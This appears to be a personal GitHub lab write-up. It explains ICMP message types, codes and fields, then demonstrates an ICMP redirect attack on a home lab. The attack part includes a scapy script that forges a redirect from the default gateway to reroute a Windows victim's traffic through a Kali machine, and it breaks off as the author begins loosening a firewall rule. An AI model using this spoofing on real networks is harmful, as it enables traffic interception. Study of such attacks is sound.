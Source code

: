# ICMP

ICMP is a layer 3 protocol that is responsible for notifying machine on the network about problems with the IP protocol, as well and managing it.

First, ICMP stands for `Internet Control Message Protocol`. The way it operates is simple, whenever there is an incident with the IP protocol, a message is sent to notify the sending computer of it. An ICMP packet is built very dynamically, there are 3 main fields in it and the rest are dependant.

## Types

Each ICMP message has a code that defines what the meaning of the message is. Here's a list:

| Type | Message                 |
| ---: | :---------------------- |
|    0 | Echo Reply              |
|    3 | Destination Unreachable |
|    4 | Source Quench           |
|    5 | Redirect                |
|    8 | Echo                    |
|   11 | Time Exceeded           |
|   12 | Parameter Problem       |
|   13 | Timestamp               |
|   14 | Timestamp Reply         |
|   15 | Information Request     |
|   16 | Information Reply       |

There were more messages added later on but we will not elaborate on them in this summary.

The most used ICMP messages are the `Echo & Echo Reply` message and the `Destination Unreachable` message.

> #### `Echo & Echo Reply`
>
> The Echo message is an "alive-check", when an echo message gets sent to a machine it will send back an echo reply message. It is a way to know if there is connectivity to a machine. That is what the ping program does.  
>
> Note: If a machine doesn't reply to an echo it does not neccesarily mean that there is no connectivity, it might be a firewall issue.

> #### `Destination Unreachable`
>
> A destination unreachable message is sent when the target machine of a packet above layer 3 is well... unreachable, this message will be sent by a router.

And a bonus message.

> #### `Redirect`
>
> A Redirect message is sent when a router (Likely the LAN's default gateway) routes a packet through another router on the same LAN as the sender machine, in that case it would be better off to send the packet straight to that other router and save a hop. So, the router will send a redirect message to the sender machine and alter their routing table so that next time they will send it to the other ruter immediately.

## Codes

Codes are just like types, but for types. Each message type has different codes that are used to define even more what is the problem. Like, message type `Redirect` has 4 codes (0, 1, 2, 3) that tell it to redirect for a whole network (0), a specific host(1), a specific service from a network (2) or a specific service from a host (3). 

`Destination Unreachable` also has codes (0, 1, 2, 3, 4, 5) for if a net (0), host (1), protocol (2) or a port (3) are unreachable, fragmentation mishap (4) or a routing failure (5).

If a type has no codes then that field will just be 0.

## The rest of the fields

The rest of the field take up the rest of the packet's buffer. The buffer is 64 bits long, 8 for Type, 8 for Code and 16 for checksum leave 32 bits for the other fields which are defualtly reserved. That is because the developers of the protocol thought that someday more types will added so dynamics are required.

The reserved 32 bit buffer is allocated according the type and code, if `Redirect` is sent then the 32 bits will be used to save the IP address of the preffered gateway. If `Destination Unreachable` is sent, the 32 bits are left empty since they have no use.

# ICMP Redirection Attack

An ICMP redirection attack takes advantage of the ICMP redirect message, and an attacker tries to place himself as a gateway for a victim machine on the local network. It is very simple. Here is the network layout:

![Network map, Kali IP change to .4 instead of .5](/Pictures/Network_Map.png)

The Attacker is the Kali machine (192.168.100.5), My victim is the 'Win10 - 01' machine (192.168.100.1) and the machine I am going to gateway to is the DC (192.168.50.1). Now, let's craft ourself a redirect packet.

*click click*... *keyboard noises*... *Head slaminh against desk*... *more keyboard noises*...

Anddddd there we go!

```
# ICMP Redirect Attack.py
# 05.02.2023
# By Timon

# Imports
from scapy.all import *

# Constants
VICTIM_IP   = "192.168.100.1"
REAL_GW     = "192.168.100.254"
ATTACKER_GW = "192.168.100.4"
TARGET_NET  = "192.168.50.1"
ICMP_TYPE   = 5
ICMP_CODE   = 1

def main():
    malicious_icmp = IP(\
                        src=REAL_GW,\       # I pose as the default gateway of the LAN.
                        dst=VICTIM_IP)/\    # Send it to the victim.
                     ICMP(\
                        type=ICMP_TYPE,\    # Enter type and code.
                        code=ICMP_CODE\
                        gw=ATTACKER_GW)/\   # GW tells victim what gw to route to instead.
                     IP(\
                        src=VICTIM_IP,\     # ICMP require the header of the IP pacet it is
                        dst=TARGET_NET)     # related to. Here we forge an IP header.
    
    send(malicious_icmp)                    # Send the packet on the wire!

if (__name__ == "__main__"):
    main()
```
A python script using scapy, creates a redirect icmp packet and sends it.

At first it did not work, and I didn't know why. The script was perfect and the victim machine recieved the packet, so it was very fraustrating ;-; . But then I found the problem!

Exhibit 1 madafaka, this bitch!

![Default rule for ICMPv4 traffic](/Pictures/Old_Firewall_Rule.PNG)

On windows, allegedly ICMP redirection is turned on by default. But on the firewall the ICMPv4 rule does not allow ICMP redirection pacets to pass through! Only ICMP echo.

So I made my own rule:

